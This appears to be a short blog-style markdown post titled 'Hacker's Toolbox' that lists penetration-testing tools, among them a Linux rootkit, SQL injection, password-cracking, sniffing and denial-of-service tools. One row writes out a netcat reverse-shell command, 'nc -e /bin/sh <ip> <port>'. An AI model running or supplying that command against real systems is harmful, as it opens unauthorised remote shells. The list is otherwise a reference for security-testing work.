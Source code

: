 ```yaml
---
title: Hacker's Toolbox
excerpt: >-
  This article will contain various cool tools I've encountered during my research.
categories:
  - Penetration-Testing
tags:
  - pentest
  - tools
---
```

Name            | description
----------------|------------------------------------------------
vlany           | a Linux rootkit
sqlmap          | automated SQL injection
nmap            | network scanner
openvas         | vulnrability scanner
burpsuite       | intercepting proxy, with a lot of nice features
John the ripper | password decryption
LOIC            | DOS tool (for windows)
slowhttptest    | DOS tool for linux (tested on kali)
metasploit      | malware generator and much more
etherape        | GUI showing eth interface traffic
Hydra           | Password bruteforcing  
Driftnet        | captures images sent on wire (non https)
urlsnarf        | captures HTTP requests  
nc -e /bin/sh <ip> <port> | sends a shell to the ip
nikto | web vulnrability checker
dirb | web brute forcer

